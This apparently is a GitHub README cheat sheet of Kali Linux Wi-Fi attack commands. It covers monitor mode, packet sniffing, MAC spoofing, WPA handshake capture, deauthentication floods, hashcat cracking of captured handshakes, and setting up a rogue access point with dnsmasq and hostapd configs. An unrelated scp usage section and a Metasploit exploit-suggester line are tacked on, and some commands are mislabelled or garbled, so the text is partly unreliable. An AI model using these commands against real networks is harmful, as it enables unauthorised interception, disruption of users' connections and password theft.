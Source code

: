 # Kali-Linux-Reference

## Enabling Monitor Mode

* `iwconfig` : Show all network devices 
* `ifconfig wlan1 up` : To make sure network device is up and running 
* `airmon-ng` : Show all network cards 
* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 

## Reset to normal mode

* `airmon-ng stop wlan1mon` : Stop monitor mode
* `service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

*PWR = Signal Strength should be above than -70*
* `airodump-ng wlan1mon` : Start sniffing
* `airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

* `ifconfig wlan1 down` : Bring down the interface
* `macchanger -r wlan1` : Change mac address to random
* `ifconfig wlan1 down` : Bring the interface up


## Capturig Handshake file
* `airodump-ng -bssid [bssid] --channel [1] --write Desktop/Captures/WPA wlan0mon`

## Deauth Attacks

* `airodump-ng --channel --bssid  wlan1mon`
* `aireplay-ng --deauth 2000 -a [MAC of Access Point] -c [MAC of  Client] wlan1mon`

## Cracking Handshake file with Hashcat (Windows)
* `hashcat64.exe -m 2500 capture.hccap wordlist.lst`
* Keyspace method
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 1234567890 ?1?1?1?1?1?1?1?1`
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 ?d?d?d?d?d?d?d?d`

## Pyrit Reduce size of WPA/WPA2 .Cap file
* `pyrit -r capture.cap analyze`
* `pyrit -r capture.cap -o output.cap strip`


# Rouge Access Point

## Enabling Monitor Mode

* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 
* `ifconfig wlan1mon 10.0.0.1/24` : Set IP of Monitor Interface

## Install tools

* `apt-get install -y hostapd dnsmasq wireless-tools iw wvdial`

## Configure dnsmasq

* `mv /etc/dnsmasq.conf /etc/dnsmasq.conf_bkp` : Create backup of config file
* `vim /etc/dnsmasq.conf`

## dnsmasq.conf file
```
log-facility=/var/log/dnsmasq.log
#address=/#/10.0.0.1
#address=/google.com/10.0.0.1
interface=wlan0mon
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
#no-resolv
log-queries
```

* `vim /etc/hostapd/hostapd.conf`

## dnsmasq.conf file
```
interface=wlan1mon
driver=nl80211
ssid=Rouge-AP
channel=1
#enable_karma=1
```

## Start dnsmasq 

* `service dnsmasq start`
* `tail -f /var/log/dnsmasq.log`

## Start hostapd 

* `hostapd /etc/hostapd/hostapd.conf`

## scp

> Secure copy.
> Copy files between hosts using Secure Copy Protocol over SSH.

- Copy a local file to a remote host:

`scp {{path/to/local_file}} {{remote_host}}:{{path/to/remote_file}}`

- Copy a file from a remote host to a local folder:

`scp {{remote_host}}:{{path/to/remote_file}} {{path/to/local_dir}}`

- Recursively copy the contents of a directory from a remote host to a local directory:

`scp -r {{remote_host}}:{{path/to/remote_dir}} {{path/to/local_dir}}`

- Copy a file between two remote hosts transferring through the local host:

`scp -3 {{host1}}:{{path/to/remote_file}} {{host2}}:{{path/to/remote_dir}}`

- Use a specific username when connecting to the remote host:

`scp {{path/to/local_file}} {{remote_username}}@{{remote_host}}:{{path/to/remote_dir}}`

- Use a specific ssh private key for authentication with the remote host:

`scp -i {{~/.ssh/private_key}} {{local_file}} {{remote_host}}:{{/path/remote_file}}`

##Local Exploit Suggestor
`post/multi/recon/local_exploit_suggestor





